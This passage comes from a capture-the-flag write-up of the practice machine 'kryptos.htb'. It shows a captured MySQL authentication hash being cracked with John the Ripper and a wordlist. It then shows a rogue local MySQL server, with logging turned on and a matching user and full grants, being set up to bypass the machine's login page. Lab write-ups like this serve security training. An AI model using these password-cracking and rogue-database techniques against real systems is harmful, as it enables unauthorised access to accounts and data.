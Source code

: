 	root@pentestbox:~# echo "$mysqlna$4141414141414141414141414141414141414141*b25658e4107b15ab804df5d06e47ee40a97f2a53" > hashedpass
	root@pentestbox:~# john --wordlist --format=mysqlna /usr/share/wordlists/rockyou.txt hashedpass
	Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
	Using default input encoding: UTF-8
	Loaded 1 password hash (mysqlna, MySQL Network Authentication [SHA1 32/64])
	krypt0n1te            (root)
	guesses: 1  time: 0:00:03:21 DONE (Fri Sep 27 06:47:58 2019)  c/s: 300  trying: pt0n1te
	Use the "--show" option to display all of the cracked passwords reliably

	root@pentestbox:~# john --show hashedpass
	?:krypt0n1te

	1 password hash cracked, 0 left

By trying some combinations with default users as login, we can't get still to login. Therefore, we have to figure out how to enable us to bypass the login page. A path could be to poison the page and force a login against a local database and creating a fake account. In addition, we want to be able to understand what the victim is expecting from a DB, so we have to log all the errors that will be generated during the attempts.

First, we have to create a local MySQL Server. Let's add then to ```/etc/mysql/my.cnf``` the following code:

	[mysqld]
	bind-address = 0.0.0.0
	general-log             = 1
	general_log_file        = /var/log/mysql/mysql.log	

By doing so, we can create an active instance of MySQL listening on our machine and we can build the inner structure of the DB accordingly to what is required. Let's then start the service and read the logs: 

	root@pentestbox:~# service mysql start
	root@pentestbox:~# tail -f /var/log/mysql/mysql.log

Trigger again the login:

	Access denied for user 'dbuser'@'kryptos.htb' (using password: YES)

We do know now the user, so we create both the user and the database **cryptor**, which we already know:

	root@pentestbox:~# mysql -u root -p  
	Enter password: 
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MariaDB connection id is 55
	Server version: 10.3.15-MariaDB-1-log Debian 10

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MariaDB [(none)]> CREATE USER 'dbuser'@'10.10.10.129' IDENTIFIED BY 'krypt0n1te';
	Query OK, 0 rows affected (0.001 sec)

	MariaDB [(none)]> GRANT ALL ON *.* TO 'dbuser'@'10.10.10.129';
	Query OK, 0 rows affected (0.001 sec)
